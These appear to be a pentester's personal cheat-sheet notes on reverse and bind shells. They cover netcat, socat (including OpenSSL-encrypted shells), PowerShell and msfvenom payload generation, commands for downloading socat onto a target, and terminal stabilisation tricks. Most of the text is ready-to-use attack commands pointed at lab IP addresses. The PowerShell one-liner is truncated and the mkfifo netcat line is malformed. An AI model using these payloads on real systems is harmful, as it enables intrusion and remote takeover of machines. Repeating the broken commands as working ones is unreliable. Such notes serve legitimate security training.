 Netcat

Socat

MSF auxiliary/multi/handler

MSF venom

[Payload of all things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

[Pentest Monkey](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

/usr/share/webshells

2 types of shells
- Reverse
- Bind 





# Shell Stabilisation


```
python -c 'import pty;pty.spawn("/bin/bash")'
python2 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'

export TERM=xterm 

control Z then, 

stty raw -echo; fg
```





Py
    The first thing to do is use 

```python3 -c 'import pty;pty.spawn("/bin/bash")'```

, which uses Python to spawn a better featured bash shell; note that some targets may need the version of Python specified. If this is the case, replace python with python2 or python3 as required. At this point our shell will look a bit prettier, but we still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.
    Step two is: 
```export TERM=xterm``` 
-- this will give us access to term commands such as clear.
    
Finally (and most importantly) we will background the shell using 

Ctrl + Z. 

Back in our own terminal we use 

```stty raw -echo; fg```

This does two things: 

	first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). 
	It then foregrounds the shell, thus completing the process. 

Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type reset and press enter.

```
stty -a 	(new terminal  // size you want)  then set:
stty rows <number>
stty cols <number>
```



# rlwrap (good for windows)

```
sudo apt install rlwrap

rlwrap nc -lvnp <port>
```
linux use Ctrl + Z then stty raw -echo; fg

stty -a 	(new terminal  // size you want)  then set:
stty rows <number>
stty cols <number>






# Socat 

serve this [file](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true) on py server:

`sudo python3 -m http.server 80`




upload from host:

**linux**:

`wget 10.6.65.43/socat -O /tmp/socat`

**windows**:

`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`

stty -a 	(new terminal  // size you want)  then set:
stty rows <number>
stty cols <number>










## Socat 101


Reverse Shell

**listen**:
socat TCP-L:443 -

**connect**:
windows:
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes

linux:
socat TCP:10.6.65.43:443 EXEC:"bash -li"




Bind Shell

listen:
socat TCP-LISTENER:443 EXEC:"bash -li"

socat TCP-L:<PORT> EXEC:powershell.exe,pipes


We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

connect:
socat TCP:10.10.221.44:443



target linux only:

any payload:
socat TCP-L:<port> FILE:`tty`,raw,echo=0

if socat installed:
socat TCP:10.6.65.43:443 EXEC:"bash -li",pty,stderr,sigint,setsid,sane


If, at any point, a socat shell is not working correctly, it's well worth increasing the verbosity by adding -d -d into the command



Socat Encrypted Shells


TCP becomes OPENSSL

1- generate certificate
```
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```
leave blank 


2- merge file

```cat shell.key shell.crt > shell.pem```


3- set up listner

```socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -```

connect:

```socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash```

bind shell:

target-
```socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes```

attacker:

```socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -```


EXAMPLE
```
socat OPENSSL-LISTEN:53,cert=encrypt.pen,verify=0 FILE:`tty`,raw,echo=0 


socat OPENSSL:10.10.10.5:53 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```









PAYLOADS


netcat -e option let you execute a process on connection.


bind shell
```nc -lvnp <PORT> -e /bin/bash```

reverse shell
```nc <LOCAL-IP> <PORT> -e /bin/bash```


linux
```mkfifo /tmp/f; nc -lvnp 10.6.65.43 1234 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f```


windows
needs to be one line:
```powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length```




### msfvenom

```msfvenom -p <PAYLOAD> <OPTIONS>```


```msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>```


**staged**- good for ids detection, first stage just connects, second stage downloads code


**stageless** - most common, all in one, 

meterpreter shell  -  must be used in msf, banned from certain certifications



```<OS>/<arch>/<payload>```

linux/x86/shell_reverse_tcp


camel case = **stageless**

backslash = **staged**



```msfvenom --list payloads | grep "<OS>/<arch>/<payload>"```


